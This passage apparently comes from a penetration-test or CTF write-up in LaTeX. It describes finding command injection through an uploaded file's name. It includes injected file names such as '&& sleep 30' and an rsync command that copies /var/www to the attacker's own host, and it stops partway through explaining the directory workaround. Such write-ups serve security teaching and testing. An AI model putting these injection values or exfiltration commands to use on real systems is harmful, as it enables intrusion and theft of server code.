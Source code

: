 Likelihood:  medium - high\newline

Impact: high\newline

Risk: high\newline

\subsection{Discovery}

The discovery was easily found by simply uploading a file called \textit{\&\& sleep 30}. We then noticed that the response of the server is delayed by about 30 seconds. This was reason enough to try some more. We then tried to execute code which will download the \textit{/var/www} directory to our local box. The main problem was that it is not possible to use slashes in Unix file names. That means we can not easily change directories or name the file something like this:

\begin{lstlisting}[caption=File with '/' (does not work), label=listing:not_working_file]
&& rsync /var/www mybox::myshare
\end{lstlisting}

Due to this we wanted to be the uploaded file be interpreted by bash on the host, so we could just write a simple bash script with the following content:

\begin{lstlisting}[caption=Bash Script to Get PHP Code, label=listing:bash_script]
rsync /var/www mybox::myshare
\end{lstlisting}

The problem is, we need to somehow integrate the bash execution in our file name like this:

\begin{lstlisting}[caption=Executing code via bash, label=listing:execute_bash_script]
... && bash script.sh
\end{lstlisting}

That means that we need somehow get to the directory the uploaded file is located, we assumed \textit{/tmp/\$filename}.

So we need to change the directory to \textit{/tmp/}. We archived that to create a temporary directory, change to it, and then change to the upper directory like illustrated in Listing \ref{listing:change_to_tmp}. We had to do that because we cannot use slashes in the file name.

